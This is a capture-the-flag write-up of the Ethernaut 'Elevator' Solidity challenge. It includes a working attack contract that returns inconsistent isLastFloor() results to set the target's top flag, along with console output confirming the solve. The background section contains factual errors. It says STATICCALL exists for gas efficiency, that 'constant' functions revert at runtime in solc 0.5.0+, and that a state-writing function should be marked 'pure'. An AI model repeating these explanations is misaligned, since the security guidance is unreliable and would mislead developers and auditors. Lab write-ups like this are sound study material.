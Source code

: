 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge's message.

>This elevator won't let you reach the top of your building. Right?

This Solidity code represents an elevator contract with a corresponding interface for a building. 

- The elevator contract (**Elevator**) keeps track of the current floor and whether it has reached the top floor.
- The **goTo** function is used to move the elevator to a specified floor.
- The **Building** interface defines a single function **isLastFloor** that takes a floor number as an argument and returns a boolean value indicating whether it is the last floor in the building.

In the **goTo** function, the contract checks if the specified floor is not the last floor by calling the **isLastFloor** function of the **building** instance (which is the contract that called the **goTo** function). If it is not the last floor, the **floor** variable is updated with the new floor number, and the **top** variable is set based on whether the new floor is the last floor. The code is missing some essential details such as the implementation of the **Building** interface and the deployment of the contracts, but this is the basic idea behind this elevator contract.

## Missing State-Modifying Functions

Smart contracts are self-executing programs that automatically enforce the rules and regulations of a contract. One of the main advantages of smart contracts is that they are transparent and immutable, but this also means that once deployed, the code cannot be changed. Therefore, it is important to ensure that the code is secure before deployment.

One potential security pitfall in Solidity is the use of state-modifying functions that are incorrectly labelled as **constant/pure/view** functions. In Solidity versions prior to 0.5.0, it was possible to modify state variables within a constant/pure/view function using assembly code. However, in solc 0.5.0 and later versions, this is no longer possible due to the use of the **STATICCALL** opcode.

The STATICCALL opcode is a **read-only call** that is similar to the CALL opcode, but with the added constraint that **it does not modify the state of the contract**. This opcode was introduced to **improve gas efficiency by allowing the EVM to avoid the overhead of tracking the modifications made by a function**. However, this also means that any state-modifying code that is executed within a function labelled as constant/pure/view will now result in a revert.

For example, consider the following Solidity code:

```solidity
pragma solidity >=0.5.0;

contract MyContract {

  uint256 public myVar;

  function myFunction(uint256 _value) public constant returns (uint256) {
      myVar = _value;
      return myVar;
  }
}
```
This code defines a contract with a public state variable myVar and a state-modifying function myFunction that sets the value of myVar. However, the myFunction function is labelled as constant, which is incorrect because it modifies the state of the contract.

When this contract is compiled with solc 0.5.0 or later, attempting to call the myFunction function will result in a revert because of the use of the STATICCALL opcode. The correct way to label this function would be to remove the constant keyword and label it as **pure** instead, since it does not read or modify the state of the contract.

## Security Practice

There are different ways of missing state-modifying functions that we may come accross in smart contract auditing. What is more, this issue causes a gas increment so you can notify this bug in your report. In this challenge, the **isLastFloor()** function should be marked as `view` for prevent the any dangerous override action.

Let's look at these contract examples to understand better.

```solidity
interface Building {
  function isLastFloor(uint) external returns (bool);
}

// Vulnerable Code
```

```solidity
interface Building {
  function isLastFloor(uint) external view returns (bool);
}

// Safe Code
```

As you can see, it is easy to stay secure. The important point is to check the function's features correspond to the process in the function and not neglect to use gas-safer opcodes. You can get more information about opcodes from [here.](https://ethereum.org/en/developers/docs/evm/opcodes/)

# Subverting

This contract gets an instance from **Building** interface in the **goTo()** function and calls the vulnerable **isLastFloor(uint)** function. The reason for being vulnerable of this function is it just returns a boolean value and **it doesn't change or define anything**. **That's why it allows modification to the function that the attacker wants**. 

Let's continue to explain the vulnerability with our attack contract. Here is our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IElevator {
  function goTo(uint) external;
}

contract Attack{

    bool x = false;

    function attack(address _target)external{
        IElevator target = IElevator(_target);
        target.goTo(1);
    }

    function isLastFloor(uint)external returns(bool){
        if(x){
            return true;
        }
        x = true;
        return false;
    }
}
```

In our attack contract, firstly we defined an interface named **IElavator** which will help us to call **goTo()** function from the target contract. Secondly, we have boolean type of a **x** variable which defined as false when the defination. Next, we have an **attack()** function that takes a target contract's address as an argument. It creates an instance with **IElevator** interface and call the **goTo()** function from this instance. Finally, there is **isLastFloor()** function which will have call from our **goTo()** function to check the last floor. But, when its first check, the function returns false and bypass the `! building.isLastFloor(_floor)` statement. In the second check, it returns true and set top vairable as true. Thus, we will solve the challenge.

In the first step, get new instance from the ethernaut and check the top variable's value.

```shell
await contract.top()
false
````

Deploy our attack contract and start to attack. You can get this tx from [here.](https://sepolia.etherscan.io/tx/0x11d571b1449c9fd3c48bf3aedfe8bd0d6eb968ed726ee921de4605ec37e39cb8)

After then, check the top's value again. We solved the elevator challenge.

```shell
await contract.top()
true
```

Ethernaut's message:

>You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats. An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().

**_by wasny0ps_**
